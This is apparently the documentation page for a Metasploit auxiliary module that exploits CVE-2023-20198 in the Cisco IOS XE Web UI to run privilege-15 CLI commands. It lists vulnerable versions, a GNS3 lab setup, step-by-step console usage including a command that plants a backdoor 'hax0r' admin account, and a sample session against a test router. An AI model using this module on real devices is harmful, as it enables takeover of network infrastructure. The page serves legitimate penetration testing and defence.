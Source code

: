 ## Vulnerable Application
This module leverages CVE-2023-20198 against vulnerable instances of Cisco IOS XE devices which have the
Web UI exposed. An attacker can execute arbitrary CLI commands with privilege level 15.

You must specify the IOS command mode to execute a CLI command in. Valid modes are `user`, `privileged`, and
`global`. To run a command in "Privileged" mode, set the `CMD` option to the command you want to run,
e.g. `show version` and set the `MODE` to `privileged`.  To run a command in "Global Configuration" mode, set
the `CMD` option to the command you want to run,  e.g. `username hax0r privilege 15 password hax0r` and set
the `MODE` to `global`.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
  * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
    can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the
    [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows) to install GNS3 and the
    [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn how GNS3 can be used.
  * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
  * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
  * Create a new CSR1000v instance as a QEMU device.
  * The CSR1000v device's first ethernet adapter `Gi1` should be connected to a Cloud device, whose adapter was bridged
    to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
    be accessible to a remote attacker.
  * When the virtual router has booted up, you must enable the vulnerable WebUI component. From a serial console on
    the device:
    ```
    Router>enable
    Router#config
    Router(config)#ip http server
    router(config)#ip http secure-server
    router(config)#ip http authentication local
    router(config)#username admin privilege 15 secret qwerty
    router(config)#exit
    Router#copy running-config startup-config
    ```
  * You should now be able to access the WebUI via https://TARGET_IP_ADDRESS/webui and login with admin:qwerty

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "username hax0r privilege 15 secret hax0r"`
5. `set MODE global`
6. `run`
7. Visit `https://<TARGET_IP_ADDRESS>/webui/` in a browser and log in with username `hax0r` and password `hax0r`.

## Options

### CMD

The Cisco CLI command to execute.

### MODE
Cisco IOS commands cna be executed in one of several modes, specifically "User EXEC" mode, "Privileged EXEC" mode, and 
"Global Configuration" mode. The `MODE` options lets you explicitly set what mode you want the `CMD` to execute in. Valid
modes are `user`, `privileged`, and `global`.

## Scenarios

```
msf6 > use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set RHOST 192.168.86.57
RHOST => 192.168.86.57
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set CMD "show version"
CMD => show version
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set MODE privileged
MODE => privileged
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      show version     yes       The CLI command to execute.
   MODE     privileged       yes       The mode to execute the CLI command in, valid values are 'user', 'privileged', or 'global'.
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.57    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run
[*] Running module against 192.168.86.57


Cisco IOS XE Software, Version 16.12.03
Cisco IOS Software [Gibraltar], Virtual XE Software (X86_64_LINUX_IOSD-UNIVERSALK9-M), Version 16.12.3, RELEASE SOFTWARE (fc5)
Technical Support: http://www.cisco.com/techsupport
Copyright (c) 1986-2020 by Cisco Systems, Inc.
Compiled Mon 09-Mar-20 21:50 by mcpre
Cisco IOS-XE software, Copyright (c) 2005-2020 by cisco Systems, Inc.
All rights reserved.  Certain components of Cisco IOS-XE software are
licensed under the GNU General Public License ("GPL") Version 2.0.  The
software code licensed under GPL Version 2.0 is free software that comes
with ABSOLUTELY NO WARRANTY.  You can redistribute and/or modify such
GPL code under the terms of GPL Version 2.0.  For more details, see the
documentation or "License Notice" file accompanying the IOS-XE software,
or the applicable URL provided on the flyer accompanying the IOS-XE
software.
ROM: IOS-XE ROMMON
router uptime is 3 hours, 59 minutes
Uptime for this control processor is 4 hours, 2 minutes
System returned to ROM by reload
System image file is "bootflash:packages.conf"
Last reload reason: reload
This product contains cryptographic features and is subject to United
States and local country laws governing import, export, transfer and
use. Delivery of Cisco cryptographic products does not imply
third-party authority to import, export, distribute or use encryption.
Importers, exporters, distributors and users are responsible for
compliance with U.S. and local country laws. By using this product you
agree to comply with applicable laws and regulations. If you are unable
to comply with U.S. and local laws, return this product immediately.
A summary of U.S. laws governing Cisco cryptographic products may be found at:
http://www.cisco.com/wwl/export/crypto/tool/stqrg.html
If you require further assistance please contact us by sending email to
export@cisco.com.
License Level: ax
License Type: N/A(Smart License Enabled)
Next reload license Level: ax
Smart Licensing Status: UNREGISTERED/No Licenses in Use
cisco CSR1000V (VXE) processor (revision VXE) with 1113574K/3075K bytes of memory.
Processor board ID 9OVFUOGPESO
4 Gigabit Ethernet interfaces
32768K bytes of non-volatile configuration memory.
3012164K bytes of physical memory.
6188032K bytes of virtual hard disk at bootflash:.
0K bytes of WebUI ODM Files at webui:.
Configuration register is 0x2102

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run CMD="show clock"
[*] Running module against 192.168.86.57


*15:24:05.110 UTC Fri Nov 3 2023
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > 
```